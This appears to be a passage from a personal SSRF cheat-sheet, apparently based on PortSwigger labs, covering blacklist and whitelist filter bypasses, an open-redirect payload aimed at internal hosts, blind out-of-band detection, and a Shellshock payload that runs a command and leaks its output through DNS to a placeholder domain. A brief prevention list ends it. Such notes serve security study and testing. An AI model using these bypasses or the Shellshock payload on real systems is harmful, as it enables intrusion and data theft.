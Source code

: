 	
- Against another back-end system

	Basicly the same, just scan for internal APIs and then fuzz endpoint and get result on the search thing

#### Bypassing filters

- SSRF with blacklist-based input filter

	Basicly for this you will need imagination and a good understanding of what you have in front of you. For example if 127.0.0.1 is block you can replace it by 127.1 you can double url encode strings, etc ... 
	
	
- SSRF with whitelist-based input filter

	This one is very well explained by portswigger so here is the essentials.
	
	To bypass whitelisting you can use thse following techniques :
	-   You can embed credentials in a URL before the hostname, using the `@` character. For example: `https://expected-host@evil-host`.
	-   You can use the `#` character to indicate a URL fragment. For example: `https://evil-host#expected-host`.
	-   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: `https://expected-host.evil-host`.
	-   You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
	-   You can use combinations of these techniques together.


- SSRF with filter bypass via open redirection vulnerability

	Same as the previous ones. Here is a payload example :
	`param=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://INTERNAL_IP/WHATEVER`


#### Blind exploitation
- Blind SSRF with out-of-band detection

	Easiest blind attack to perform. If you just want to see if SSRF is a thing on the site, bounce back on your domain / IP and tcpdump to check incoming traffic. 
	
	
- Blind SSRF with Shellshock exploitation

	This will principally lead to RCE, you can set the following payload (`() { :; }; /usr/bin/nslookup $(COMMAND).YOUR_DOMAIN`) on the Web agent field and exploit the SSRF as indicate in previous setps

#### How to prevent them 

You have several way to implement a protection for this type of attack. Here are some of them :	

-	Input validation (regex, whitelist, ...)
-	If you are using .NET, it can be expose to hex, dword, octal and mixed encoding
-	Ensure that the domain is a trusted and valid one
-	Configure a firewall to explicitly set legitimate flows
-	....
